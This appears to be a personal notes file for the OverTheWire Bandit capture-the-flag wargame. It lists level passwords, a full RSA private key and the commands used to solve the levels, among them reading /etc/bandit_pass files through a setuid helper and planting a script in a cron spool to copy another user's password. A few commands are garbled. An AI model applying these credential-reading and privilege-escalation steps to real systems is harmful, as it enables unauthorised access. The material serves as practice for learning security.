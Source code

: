 ## Bandit level numbers are the current level, commands and pw obtained for the next level
### bandit 0
NH2SXQwcBdpmTEzi3bvBHMM9H66vVXjL

### bandit 1
rRGizSaX8Mk1RTb1CNQoXTcYZWU6lgzi

### bandit 2
aBZ0W5EmUfAf7kHTQeOwd8bauFJ2lAiG

### bandit 3
2EW7BBsr6aMMoJ2HjW067dm8EgX26xNe

### bandit 4
lrIWWI6bB37kxfiCQZqUdOIYfr6eEeqR

### bandit 5
P4L4vucdmLnm8I7Vl7jG1ApGSfjYKqJU

### bandit 6
z7WtoNQU2XfjmMtWA8u5rN4vzqu4v99S

### bandit 7
TESKZC0XvTetK0S9xNwm25STk5iWrBvP

### bandit 8
EN632PlfYiZbn3PhVK3XOGSlNInNE00t

### bandit 9
G7w8LIi6J3kTb8A7j9LgrywtEUlyyp6s

### bandit 10
6zPeziLdR2RKNdNYFNb6nVCKzphlXHBM

### bandit 11
JVNBBFSmZwKKOP0XbFXOoW8chDz5yVRv

### bandit 12
wbWdlBxEir4CaE8LaPhauuOo6pwRmrDw

### bandit 13
fGrHPx402xGC7U7rXKDaxiWFTOiF0ENq

### bandit 14
```sh
echo "fGrHPx402xGC7U7rXKDaxiWFTOiF0ENq" | nc localhost 30000
```
jN2kgmIXJ6fShzhT2avhotn4Zcka6tnt

### bandit 15
```sh
openssl s_client -connect localhost:30001 -ign_eof
```
JQttfApK4SeyHwDlI9SXGR50qclOAil1

### bandit 16
```sh
nmap -sV -p 31000-32000 localhost1
openssl s_client -connect localhost:31790 -ign_eof
```

```
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAvmOkuifmMg6HL2YPIOjon6iWfbp7c3jx34YkYWqUH57SUdyJ
imZzeyGC0gtZPGujUSxiJSWI/oTqexh+cAMTSMlOJf7+BrJObArnxd9Y7YT2bRPQ
Ja6Lzb558YW3FZl87ORiO+rW4LCDCNd2lUvLE/GL2GWyuKN0K5iCd5TbtJzEkQTu
DSt2mcNn4rhAL+JFr56o4T6z8WWAW18BR6yGrMq7Q/kALHYW3OekePQAzL0VUYbW
JGTi65CxbCnzc/w4+mqQyvmzpWtMAzJTzAzQxNbkR2MBGySxDLrjg0LWN6sK7wNX
x0YVztz/zbIkPjfkU1jHS+9EbVNj+D1XFOJuaQIDAQABAoIBABagpxpM1aoLWfvD
KHcj10nqcoBc4oE11aFYQwik7xfW+24pRNuDE6SFthOar69jp5RlLwD1NhPx3iBl
J9nOM8OJ0VToum43UOS8YxF8WwhXriYGnc1sskbwpXOUDc9uX4+UESzH22P29ovd
d8WErY0gPxun8pbJLmxkAtWNhpMvfe0050vk9TL5wqbu9AlbssgTcCXkMQnPw9nC
YNN6DDP2lbcBrvgT9YCNL6C+ZKufD52yOQ9qOkwFTEQpjtF4uNtJom+asvlpmS8A
vLY9r60wYSvmZhNqBUrj7lyCtXMIu1kkd4w7F77k+DjHoAXyxcUp1DGL51sOmama
+TOWWgECgYEA8JtPxP0GRJ+IQkX262jM3dEIkza8ky5moIwUqYdsx0NxHgRRhORT
8c8hAuRBb2G82so8vUHk/fur85OEfc9TncnCY2crpoqsghifKLxrLgtT+qDpfZnx
SatLdt8GfQ85yA7hnWWJ2MxF3NaeSDm75Lsm+tBbAiyc9P2jGRNtMSkCgYEAypHd
HCctNi/FwjulhttFx/rHYKhLidZDFYeiE/v45bN4yFm8x7R/b0iE7KaszX+Exdvt
SghaTdcG0Knyw1bpJVyusavPzpaJMjdJ6tcFhVAbAjm7enCIvGCSx+X3l5SiWg0A
R57hJglezIiVjv3aGwHwvlZvtszK6zV6oXFAu0ECgYAbjo46T4hyP5tJi93V5HDi
Ttiek7xRVxUl+iU7rWkGAXFpMLFteQEsRr7PJ/lemmEY5eTDAFMLy9FL2m9oQWCg
R8VdwSk8r9FGLS+9aKcV5PI/WEKlwgXinB3OhYimtiG2Cg5JCqIZFHxD6MjEGOiu
L8ktHMPvodBwNsSBULpG0QKBgBAplTfC1HOnWiMGOU3KPwYWt0O6CdTkmJOmL8Ni
blh9elyZ9FsGxsgtRBXRsqXuz7wtsQAgLHxbdLq/ZJQ7YfzOKU4ZxEnabvXnvWkU
YOdjHdSOoKvDQNWu6ucyLRAWFuISeXw9a/9p7ftpxm0TSgyvmfLF2MIAEwyzRqaM
77pBAoGAMmjmIJdjp+Ez8duyn3ieo36yrttF5NSsJLAbxFpdlc1gvtGCWW+9Cq0b
dxviW8+TFVEBl1O4f7HVm6EpTscdDxU+bCXWkfjuRb7Dy9GOtt9JPsX8MBTakzh3
vBgsyi/sN3RqRBcGU40fOoZyfAMT8s1m/uYv52O6IgeuZ/ujbjY=
-----END RSA PRIVATE KEY-----
```

### bandit 17
```sh
diff passwords.old passwords.new`
```
hga5tuuCLF6fFzUpnagiMN8ssu9LFrdg

### bandit 18
```sh
ssh bandit18@### bandit -t ls -la
ssh bandit18@### bandit -t cat readme
```
awhqfNnAbc1naukrpqDYcF95h7HoMTrC

### bandit 19
```sh
./bandit20-do cat /etc/bandit_pass/bandit20
```
VxCazJaVykI6W36BkBU0mJTCM8rR95XT

### bandit 20
```sh
nc -l 40000 & # (or in a new shell)
./suconnect 40000
```
NvEJF7oVjkddltPSrdKEFOllh9V1IBcq

### bandit 21
```sh
bandit21@bandit:~$ cat /etc/cron.d/cronjob_bandit22
@reboot bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
* * * * * bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null
```
cronjob_bandit22.sh:
```sh
#!/bin/bash
chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```
WdDozAdTM2z9DiFEQ2mGlwngMfj4EZff

### bandit 22
```sh
bandit22@bandit:~$ cat /etc/cron.d/cronjob_bandit23
@reboot bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
* * * * * bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
```

```sh
#!/bin/bash

myname=bandit23
mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)

echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"

cat /etc/bandit_pass/$myname > /tmp/$mytarget
```

```sh
cat /tmp/8ca319486bfbbc3663ea0fbe81326349
```
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

### bandit 23
```sh
echo "cat /etc/bandit_pass/bandit24 > /tmp/bandit23/bandit24.txt" > /var/spool/bandit24/foo/bandit23.sh
chmod o+x /var/spool/bandit24/foo/bandit23.sh
```

VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

### bandit 25
